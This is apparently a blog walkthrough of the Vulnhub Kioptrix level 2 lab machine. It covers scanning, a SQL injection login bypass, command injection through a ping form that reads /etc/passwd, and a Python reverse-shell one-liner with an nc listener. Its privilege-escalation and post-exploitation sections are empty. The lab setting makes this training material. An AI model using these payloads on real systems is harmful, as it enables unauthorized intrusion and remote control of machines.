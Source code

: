 ```yaml
---
layout: post
title: "Vulnhub: Kioptrix level 2 Walkthrough"
subtitle: "Difficulty: Simple"
# cover-img: /assets/img/path.jpg
thumbnail-img: /assets/img/thumb.png
share-img: /assets/img/path.jpg
tags: [Vulnhub, Kioptrix, level 2,walkthrough]
---
```


Hi Folks...
Before moving forward, please try harder and come back later. Still you are stuck then let get started.

## Objective
Gain the root access.

## Algorithm
- Locate the target machine : Host Discovery
- Find the entry points : Enumeration
- Gain access to the machine : Finding vulnerability and exploitation
- Escalate the privileges : Privilege Escalation
- Clean up : Post-Exploitation

#### Host Discovery
Generally we know the target IP address. Since lab is set up as internal network and addresses are assigned by DHCP server. We need to find the target IP address. Host IP address is ```10.10.10.2```. Using netdiscover we found the target IP i.e., ```10.10.10.4```.
```bash
sudo netdiscover -r 10.10.10.1/24
```
![sudo netdiscover -r \<ip-range\>](/assets/img/vulnhub/kioptrix/lvl2/kioptrix_lvl2_host_discovery.png "Host Discovery using netdiscover")

#### Enumeration
It is the most important step to achieve our objective. More the information about the target more the possibilities of attack vectors. Quick nmap scan reveals the information about the various common services running on the target.
```bash
nmap --vv -sV -sC -A -T5 -oN nmap_fast 10.10.10.4
```
![nmap results](/assets/img/vulnhub/kioptrix/lvl2/nmap-1.png "nmap scan")

![nmap results](/assets/img/vulnhub/kioptrix/lvl2/nmap-2.png "nmap scan")


#### Finding vulnerability and exploitation
First question comes in mind is which services is to enumerate next such that we find the vulnerability ASAP. There is no particular answer to this. Enumerating the services simultaneouly could be good start. Our main objective should be getting as much as information possible. Let's enumerate the http (80) & https(443).
On visiting a url (http://10.10.10.4) we got the login page. In the subterminal, run the gobuster (dirb/dirbuster) and nikto. While we visit a url, in the meantime we will list the directories and scan the webserver for vulnerabilities in case we do not find anything by just exploring login page.
```bash
firefox 10.10.10.4 &
```
![login page](/assets/img/vulnhub/kioptrix/lvl2/login-page.png "Login Page")

By seeing login page, several ideas come into mind - SQL Injection, directory traversal, LFI, RFI, brute forcing the credentials, basically web-based vulnerabilities.
Let's try SQL Injection. On several attempts, provide crafted usernames and password e.g. username:```anything``` password:```' or '1'='1```.
```bash
' or '1'='1
```
One might think how we directly come up with this set of credentials. 
> Answer is Practise! Practise! Practise! And Gathering the results. It's like dynamic programming in algorithm. Whatever valuable you find, store and reuse it.

Eureka!! We bypassed the authentication, using SQL Injection and landed on Administrative Web Console.
![Administrative Web Console](/assets/img/vulnhub/kioptrix/lvl2/admin-page.png "Administrative Web Console")

As a normal admin user, we get the ping results on inputing the IP address (of the host). Next questions should be is it only intended for ping? Because we see the IP-address (whatever input we provide) in the result.

![Ping result](/assets/img/vulnhub/kioptrix/lvl2/ping-result.png "Ping Result")

Let's try to provide different input e.g. ```cat /etc/passwd```. We are not getting anything apart from command echo. What exactly we are performing!!! Application is intended to execute the ping command,right? What about executing that command and then executing other command. Let's check that out. Our input will be
```bash
10.10.10.2; cat /etc/passwd
```
Hurray!!! We got the command execution. Even we can skip the IP-address like ;cat /etc/passwd would suffice.
![Command Execution](/assets/img/vulnhub/kioptrix/lvl2/ping-result-2.png "Command Execution")

Next obvious question should be How can we get the remote shell? netttcaattt! On further exploration, we did not find nc, ```;ls /usr/bin | grep nc```. wget is installed on the target. We can download the nc from the host and get the revese shell. Another approach would be getting reverse shell using python as python is installed on most of the linux based system. We confirmed this by checking the python binaries, ```;ls /usr/bin | grep python```. Here is our command for reverse shell using python.
```python2
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.2",8888));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```
Please do not forget to change the Host IP-Address and listening Port.
Do we need to remember this command? Hell, No. Our ninja techinque will help us. "Katon: Gōkakyū no Jutsu" --> ```Google-fu```.  Note: No need to worry about "Katon: Gōkakyū no Jutsu". It is intended for anime fan #Naruto.

Before executing the command start the listener on the host
```bash
nc -lnvp 8888
```
Now we are good to go. Provide the python one-liner in input field of Administrative Web Console. Hurray!!! We got the shell. It might be a lot to grasp. Let's take a 5 min break and proceed with our next task.

#### Privilege Escalation

#### Post-Exploitation

